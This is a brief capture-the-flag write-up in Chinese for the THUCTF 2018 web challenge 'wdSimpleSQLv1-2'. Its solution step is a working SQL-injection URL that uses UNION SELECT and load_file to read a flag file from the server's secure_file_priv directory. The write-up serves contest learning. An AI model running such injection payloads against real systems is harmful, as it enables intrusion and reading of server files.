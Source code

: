 wdSimpleSQLv1-2 150 points
================

题意
-------------

会长为了早日解决人生大计，特地嘱咐我们出题的时候注意一下，多宣传宣传他。为了响应会长的号召，我特地为团队写了一个大牛展示页面，但是还没写完，里面好像有问题？？？（好像忘记把会长的信息加到数据库了，逃，谁能帮我加进去下，不然会长会打死我的

(PS: Please submit the flag in filesystem)

http://host:port

attachment: wdSimpleSQLv1.zip

解题步骤
-------------

注入地点和 [wdSimpleSQLv1-1.md](wdSimpleSQLv1-1.md) 相同，只不过要读入文件。页面中说明要读入 `@@global.secure_file_priv/flag`。这样即可获取到 `flag`：

```
http://wdsimplesqlv1.thuctf2018.game.redbud.info:23334/bigcow?cowname=%27union%20all%20select%20TABLE_NAME,load_file(concat(@@secure_file_priv,%22flag%22)),TABLE_NAME,TO_BASE64(DATA_LENGTH)%20from%20INFORMATION_SCHEMA.TABLES%20limit%201%20offset%2060%23
```
